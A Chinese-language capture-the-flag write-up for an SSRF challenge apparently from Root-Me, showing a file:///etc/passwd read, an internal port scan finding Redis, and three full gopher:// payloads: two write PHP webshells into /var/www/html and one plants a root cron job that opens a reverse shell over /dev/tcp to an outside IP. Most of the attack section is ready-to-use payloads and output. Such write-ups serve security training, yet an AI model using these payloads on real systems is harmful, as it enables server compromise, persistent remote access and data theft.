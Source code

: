 # SSFRBOX

## 题目描述
---
```

```

## 题目来源
---
rootme

## 主要知识点
---
SSRF

## 题目分值
---


## 部署方式
---


## 解题思路
---

url=file:///etc/passwd

![](images/ctf-2021-06-18-18-07-59.png)

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
```

使用`php://filter`协议发现不可以使用

![](images/ctf-2021-06-18-18-39-33.png)

使用BurpSuite的工具对本期内网进行爆破，发现`6379`存活，是Redis服务

![](images/ctf-2021-06-18-18-37-47.png)

![](images/ctf-2021-06-18-18-37-29.png)

到这里有多种方式，给出Redis的两种方式，一种是直接写WebShell，一种反弹Bash

### WebShell

利用工具[Gopherus](https://github.com/tarunkant/Gopherus)生成攻击脚本

![](images/ctf-2021-06-18-18-57-16.png)

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

将内容加入到页面中的input中

![](images/ctf-2021-06-18-18-57-55.png)

即可得到shell

![](images/ctf-2021-06-18-18-56-03.png)

换个一句话木马

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%27cmder%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2410%0D%0Ashell2.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

使用BP发送是这样的

![](images/ctf-2021-06-18-19-09-02.png)

得到权限

![](images/ctf-2021-06-18-19-08-44.png)

但是使用webshell的权限很低

![](images/ctf-2021-06-18-19-11-23.png)

### 反弹bash

继续使用工具[Gopherus](https://github.com/tarunkant/Gopherus)生成payload

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2468%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/150.109.79.99/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
![](images/ctf-2021-06-18-19-11-55.png)

执行

![](images/ctf-2021-06-18-19-13-40.png)

在vps上获取到Bash

![](images/ctf-2021-06-18-19-14-34.png)

8bf1cdacc5aed910ee62913f80360a3f

## 参考
---
